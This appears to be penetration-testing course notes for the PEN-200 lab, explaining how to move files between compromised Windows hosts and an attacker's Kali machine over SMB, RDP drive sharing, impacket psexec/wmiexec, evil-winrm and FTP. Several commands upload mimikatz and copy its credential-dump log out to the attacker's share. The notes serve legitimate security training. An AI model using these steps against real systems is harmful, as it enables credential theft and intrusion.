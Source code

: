 # Notes for passing files from windows to kali

Dear learners,
Since this topic was the most frequently asked questions, we decided to share some tips and tricks about it:
1) SMB: 
On Kali:

impacket-smbserver test . -smb2support  -username kourosh -password kourosh


On Windows:

net use m: \\Kali_IP\test /user:kourosh kourosh
copy mimikatz.log m:\


2) RDP mounting shared folder:

    Using xfreerdp:

On Kali:

xfreerdp /cert-ignore /compression /auto-reconnect /u:
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-
200


On windows:

copy mimikatz.log \\tsclient\test\mimikatz.log


    Using rdesktop:

On Kali: 

rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200


On Windows:

copy mimikatz.log \\tsclient\test\mimikatz.log


3) Impacket tools:
psexec and wmiexec are shipped with built in feature for file transfer.
Note: By default whether you upload (lput) or download (lget) a file, it'll be writte in C:\Windows path.
Uploading mimikatz.exe to the target machine:

C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe


Downloading mimikatz.log:

C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log


4) Evil-winrm:

    Uploading files:

upload mimikatz.exe C:\windows\tasks\mimikatz.exe


    Downloading files:

download mimikatz.log /home/kali/Documents/pen-200


5) C2 frameworks:
Almost any of the C2 frameworks such as Metasploit are shipped with downloading and uploading functionality.

6) In FTP, binaries in ASCII mode will make the file not executable. Set the mode to binary.

Additional Resources:
File Transfer:  https://www.youtube.com/watch?v=kd0sZWI6Blc
PEN-100: https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100/books-and-videos/modal/modules/file-transfers

Happy hacking! 
